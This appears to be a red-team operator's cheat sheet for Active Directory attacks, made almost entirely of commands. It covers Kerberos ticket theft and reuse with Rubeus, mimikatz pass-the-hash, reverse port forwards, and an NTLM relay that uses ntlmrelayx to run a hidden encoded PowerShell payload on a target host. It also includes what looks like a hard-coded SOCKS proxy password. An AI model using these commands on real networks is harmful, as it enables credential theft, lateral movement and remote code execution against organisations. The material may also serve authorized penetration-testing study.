 ```
socks5 127.0.0.1 1080 john S@lcianaszkot23
```

`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe tgtdeleg /nowrap`
`echo -en '[ticket]' | base64 -d > ticket.kirbi`
`ticketConverter.py ticket.kirbi ticket.ccache`
`export KRB5CCNAME=ticket.ccache`
`proxychains [script].py -no-pass -k -dc-ip [dc] [domain]/[user]@[host]`
#### Windows
`runas /netonly /user:[domain]\[user] mmc.exe`

`C:\Tools\mimikatz\x64\mimikatz.exe`
`privilege::debug`
`sekurlsa::pth /domain:[domain] /user:[user] /ntlm:[hash] /run:mmc.exe`

`runas /netonly /user:[domain]\[user] powershell.exe`
`C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /ticket:[tgt] /service:[spn]/[host] /dc:[dc] /ptt`
#### Reverse Port Forward
`powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080`
`rportfwd 8080 127.0.0.1 80`

`powershell Remove-NetFirewallRule -DisplayName "8080-In"`
#### NTLM Relay
`powershell New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8445`
`powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080`

`cd C:\Windows\System32\Drivers`
`upload C:\Tools\PortBender\WinDivert64.sys`
`PortBender redirect 445 8445`
`rportfwd 8445 localhost 445`
`rportfwd 8080 localhost 80`
`socks 1080 socks5 disableNoAuth john S@lcianaszkot23 enableLogging`

[[#PowerShell Payload (base64)]]
`sudo proxychains ntlmrelayx.py -t smb://[target ip] -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -enc [base64]'`
`link [target] [pipe]`

Cleanup
`powershell Remove-NetFirewallRule -DisplayName "8445-In"`
`powershell Remove-NetFirewallRule -DisplayName "8080-In"`

`jobs`
`jobkill [jid]`
`kill [pid]`

`rportfwd stop 8445`
`rportfwd stop 8080`
`socks stop`
#### Forcing NTLM Authentication
